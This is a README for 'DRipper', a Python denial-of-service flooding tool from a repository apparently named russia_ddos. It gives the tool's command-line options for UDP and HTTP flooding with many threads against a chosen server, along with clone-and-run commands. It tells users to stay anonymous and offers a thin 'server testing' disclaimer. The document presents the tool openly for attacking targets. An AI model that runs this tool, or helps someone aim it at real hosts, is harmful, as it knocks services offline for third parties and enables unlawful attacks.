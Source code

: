 # DRipper

DESCRIPTION
-----------

This is an optimized version of DRipper.
Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54,
you can see there a lot of cons like extra requests to Facebook and validator.w3.com,
trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet).
Also, the old version is inefficient: you need run several processes to have your processor busy.

## Usage

```bash

██████╗ ██████╗ ██╗██████╗ ██████╗ ███████╗██████╗
██╔══██╗██╔══██╗██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!
     
Usage: python DRipper.py [options] arg

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  port (default: 80)
  -t THREADS, --threads=THREADS
                        threads (default: 100)
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN
                        Send random packets with random length (default: 1
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48)
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp (default), http
  -s HOST, --server=HOST
                        Attack to server IP

Example: python DRipper.py -s 192.168.0.1 -p 80 -t 100
```

## How to Run

Ensure you have Python 3 installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml
